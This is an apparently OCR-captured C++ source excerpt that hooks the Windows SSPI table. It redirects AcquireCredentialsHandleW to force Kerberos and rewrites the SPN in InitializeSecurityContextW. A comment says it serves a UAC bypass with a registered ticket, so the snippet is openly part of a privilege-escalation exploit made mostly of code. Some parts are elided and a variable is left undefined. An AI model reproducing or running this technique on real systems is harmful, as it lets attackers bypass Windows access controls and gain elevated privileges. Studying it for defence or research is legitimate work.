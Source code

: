 ```c++
SECURITY_STATUS SEC_ENTRY AcquireCredentialsHandleWHook(
    _In_opt_  LPWSTR pszPrincipal,                // Name of principal
    _In_      LPWSTR pszPackage,                  // Name of package
    _In_      unsigned long fCredentialUse,       // Flags indicating use
    _In_opt_  void* pvLogonId,                   // Pointer to logon ID
    _In_opt_  void* pAuthData,                   // Package specific data
    _In_opt_  SEC_GET_KEY_FN pGetKeyFn,           // Pointer to GetKey() func
    _In_opt_  void* pvGetKeyArgument,            // Value to pass to GetKey()
    _Out_     PCredHandle phCredential,           // (out) Cred Handle
    _Out_opt_ PTimeStamp ptsExpiry                // (out) Lifetime (optional)
)
{
    WCHAR kerberos_package[] = MICROSOFT_KERBEROS_NAME_W;
    printf("AcquireCredentialsHandleHook called for package %ls\n", pszPackage);
    if (_wcsicmp(pszPackage, L"Negotiate") == 0) {
        pszPackage = kerberos_package;
        printf("Changing to %ls package\n", pszPackage);
    }
    return AcquireCredentialsHandleW(pszPrincipal, pszPackage, fCredentialUse,
        pvLogonId, pAuthData, pGetKeyFn, pvGetKeyArgument, phCredential, ptsExpiry);
}

SECURITY_STATUS SEC_ENTRY InitializeSecurityContextWHook(
    _In_opt_    PCredHandle phCredential,               // Cred to base context
    _In_opt_    PCtxtHandle phContext,                  // Existing context (OPT)
    _In_opt_ SEC_WCHAR* pszTargetName,         // Name of target
    _In_        unsigned long fContextReq,              // Context Requirements
    _In_        unsigned long Reserved1,                // Reserved, MBZ
    _In_        unsigned long TargetDataRep,            // Data rep of target
    _In_opt_    PSecBufferDesc pInput,                  // Input Buffers
    _In_        unsigned long Reserved2,                // Reserved, MBZ
    _Inout_opt_ PCtxtHandle phNewContext,               // (out) New Context handle
    _Inout_opt_ PSecBufferDesc pOutput,                 // (inout) Output Buffers
    _Out_       unsigned long* pfContextAttr,  // (out) Context attrs
    _Out_opt_   PTimeStamp ptsExpiry                    // (out) Life span (OPT)
)
{
    // Change the SPN to match with the UAC bypass ticket you've registered.
    printf("InitializeSecurityContext called for target %ls\n", pszTargetName);
    SECURITY_STATUS status = InitializeSecurityContextW(phCredential, phContext, &spn[0], 
        fContextReq, Reserved1, TargetDataRep, pInput,
        Reserved2, phNewContext, pOutput, pfContextAttr, ptsExpiry);
    printf("InitializeSecurityContext status = %08X\n", status);
    return status;
}

// ...

int wmain(int argc, wchar_t** argv)
{
    // ...

    PSecurityFunctionTableW table = InitSecurityInterfaceW();
    table->AcquireCredentialsHandleW = AcquireCredentialsHandleWHook;
    table->InitializeSecurityContextW = InitializeSecurityContextWHook;

    // ...
}
```
